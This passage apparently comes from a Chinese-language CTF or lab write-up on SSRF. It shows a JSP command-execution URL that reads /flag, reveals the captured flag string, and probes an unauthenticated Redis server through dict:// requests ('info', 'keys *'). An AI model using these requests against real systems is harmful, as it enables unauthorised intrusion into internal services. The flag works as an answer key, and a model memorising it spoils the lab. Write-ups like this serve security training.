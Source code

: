 ![image-20240905150022357](https://image.201068.xyz/assets/29.SSRF/image-20240905150022357.png)

#### 命令执行

```
http://172.72.23.26:8080/xxx.jsp?cmd=cat%20/flag
```

![image-20240905145344548](https://image.201068.xyz/assets/29.SSRF/image-20240905145344548.png)

#### flag9

```
flag{nisp9_thelastone?_flag9}
```

### 172.72.23.27:6379

#### Redis未授权登录

```
dict://172.72.23.27:6379
```

![image-20240905153632391](https://image.201068.xyz/assets/29.SSRF/image-20240905153632391.png)

##### redis信息

```
dict://172.72.23.27:6379/info
```

![image-20240905154659739](https://image.201068.xyz/assets/29.SSRF/image-20240905154659739.png)

##### 查看所有key

```
dict://172.72.23.27:6379/keys *
```

![image-20240905154726203](https://image.201068.xyz/assets/29.SSRF/image-20240905154726203.png)

